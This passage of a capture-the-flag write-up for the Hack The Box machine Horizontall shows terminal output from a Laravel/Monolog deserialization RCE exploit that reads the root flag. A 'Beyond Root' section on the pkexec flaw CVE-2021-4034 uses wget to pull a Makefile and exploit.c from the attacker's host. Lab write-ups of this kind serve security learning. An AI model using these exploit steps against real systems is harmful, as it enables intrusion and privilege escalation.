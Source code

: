 ```bash
┌──(root💀H3X0S3)-[/home/…/Desktop/Labs/HTB/Horizontall]
└─# python3 exploit2.py http://127.0.0.1:8000 Monolog/RCE1 "cat /root/root.txt"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

78392###########################

[i] Trying to clear logs
[+] Logs cleared
```


# Beyond Root

## CVE-2021-4034

A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies

``` bash
cd H3X0S3/                                                                                                                                 
strapi@horizontall:~/H3X0S3$ wget http://10.10.16.14:9000/Makefile                                                                         
wget http://10.10.16.14:9000/Makefile                                                                                                      
--2022-02-05 15:46:15--  http://10.10.16.14:9000/Makefile                                                                                  
Connecting to 10.10.16.14:9000... connected.                                                                                               
HTTP request sent, awaiting response... 200 OK                                                                                             
Length: 148 [application/octet-stream]                                                                                                     
Saving to: ‘Makefile’                                                                                                                      
                                                                                                                                           
     0K                                                       100% 9.00M=0s                                                                
                                                                                                                                           
2022-02-05 15:46:17 (9.00 MB/s) - ‘Makefile’ saved [148/148]                                                                               
                                                                                                                                           
strapi@horizontall:~/H3X0S3$ wget http://10.10.16.14:9000/exploit.c                                                                        
wget http://10.10.16.14:9000/exploit.c                                                                                                     
--2022-02-05 15:46:20--  http://10.10.16.14:9000/exploit.c                                                                                 
Connecting to 10.10.16.14:9000... connected.                                                                                               
HTTP request sent, awaiting response... 200 OK                                                                                             
Length: 614 [text/x-csrc]                                                                                                                  
Saving to: ‘exploit.c’

     0K                                                       100% 40.5M=0s

```